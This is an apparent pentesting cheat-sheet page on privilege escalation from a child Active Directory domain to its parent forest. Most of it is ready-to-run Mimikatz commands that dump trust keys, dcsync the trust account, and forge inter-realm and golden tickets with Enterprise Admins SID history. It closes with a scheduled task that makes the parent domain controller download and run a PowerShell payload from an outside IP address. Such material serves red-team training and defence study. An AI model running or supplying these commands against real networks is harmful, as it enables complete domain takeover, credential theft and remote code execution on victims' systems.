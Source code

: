 There are three **main** ways that security principals \(users/groups/computer\) from one domain can have access into resources in another foreign/trusting domain:

* They can be added to **local groups** on individual machines, i.e. the local “Administrators” group on a server.
* They can be added to **groups in the foreign domain**. There are some caveats depending on trust type and group scope, described shortly.
* They can be added as principals in an **access control list**, most interesting for us as principals in **ACEs** in a **DACL**. For more background on ACLs/DACLs/ACEs, check out the “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)” whitepaper.

### Child-to-Parent forest privilege escalation

Also, notice that there are **2 trusted keys**, one for _Child --&gt; Parent_ and another one for P_arent --&gt; Child_.

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
/domain:<Current domain>
/sid:<SID of current domain>
/sids:<SID of the Enterprise Admins group of the parent domain>
/rc4:<Trusted key>
/user:Administrator
/service:<target service>
/target:<Other domain>
/ticket:C:\path\save\ticket.kirbi
```

For finding the **SID** of the **"Enterprise Admins"** group you can find the **SID** of the **root domain** and set it in S-1-5-21_root domain_-519. For example, from root domain SID _S-1-5-21-280534878-1496970234-700767426_ the "Enterprise Admins"group SID is _S-1-5-21-280534878-1496970234-700767426-519_

[http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local 
 .\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
 ls \\mcorp-dc.moneycorp.local\c$
```

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
